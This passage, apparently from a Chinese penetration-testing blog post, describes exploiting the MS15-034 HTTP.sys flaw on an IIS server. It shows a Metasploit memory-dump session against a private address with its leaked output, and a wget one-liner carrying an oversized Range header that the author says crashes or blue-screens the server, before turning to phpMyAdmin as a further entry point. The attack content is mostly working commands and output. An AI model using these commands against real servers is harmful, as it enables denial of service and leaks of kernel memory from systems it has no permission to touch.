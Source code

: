 如上请求包，若 IIS 服务器返回 “**Requested Range Not Satisfiable**“，则是存在漏洞，否则如果返回 “The request has an invalid header name”，则说明漏洞已经修补。

### 进一步利用/危害

前面的远程任意代码执行并不成立；此漏洞就当前利用来说，只能造成两种危害。

我使用 **MSF** 来 **exploit** 利用方式。

如下，使用 MSF 读取服务器内核内存数据。

```shell
msf5 > use auxiliary/scanner/http/ms15_034_http_sys_memory_dump
msf5 auxiliary(scanner/http/ms15_034_http_sys_memory_dump) > set RHOSTS 192.168.3.72
msf5 auxiliary(scanner/http/ms15_034_http_sys_memory_dump) > set RPORT 8082
msf5 auxiliary(scanner/http/ms15_034_http_sys_memory_dump) > set TARGETURI /Images/top01.gif
msf5 auxiliary(scanner/http/ms15_034_http_sys_memory_dump) > exploit

[+] Target may be vulnerable...
[+] Stand by...
[-] Memory dump start position not found, dumping all data instead

[+] Memory contents:
48 54 54 50 2f 31 2e 31 20 34 30 30 20 42 61 64    |HTTP/1.1 400 Bad|
20 52 65 71 75 65 73 74 0d 0a 43 6f 6e 74 65 6e    | Request..Conten|
74 2d 54 79 70 65 3a 20 74 65 78 74 2f 68 74 6d    |t-Type: text/htm|
6c 3b 20 63 68 61 72 73 65 74 3d 75 73 2d 61 73    |l; charset=us-as|
63 69 69 0d 0a 53 65 72 76 65 72 3a 20 4d 69 63    |cii..Server: Mic|
… … … … … … … … …
72 6f 73 6f 66 74 2d 48 54 54 50 41 50 49 2f 32    |rosoft-HTTPAPI/2|
45 72 72 6f 72 20 34 30 30 2e 20 54 68 65 20 72    |Error 400. The r|
65 71 75 65 73 74 20 68 6f 73 74 6e 61 6d 65 20    |equest hostname |
69 73 20 69 6e 76 61 6c 69 64 2e 3c 2f 70 3e 0d    |is invalid.</p>.|
0a 3c 2f 42 4f 44 59 3e 3c 2f 48 54 4d 4c 3e 0d    |.</BODY></HTML>.|
0a                                                 |.|
[+] Memory dump saved to ~/.msf4/loot/20190814122223_default_192.168.3.72_iis.ms15034_317502.bin
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

第二种，我直接使用 wget 命令。

```shell
$ wget --header="Range: bytes=18-18446744073709551615" <http://192.168.3.72/Images/top01.gif>
```

在敲这条命令时，双手一直是抖的 🙃🙃。

这条命令回车下去直接对服务器造成 **DoS** 攻击，服务器必定**假死**或**蓝屏**；就不回车了……

此漏洞利用，就到此为止咯。。。

## 由 phpMyAdmin 入手

还不甘心，难道仅仅只能让此服务器蓝屏重启吗？？？
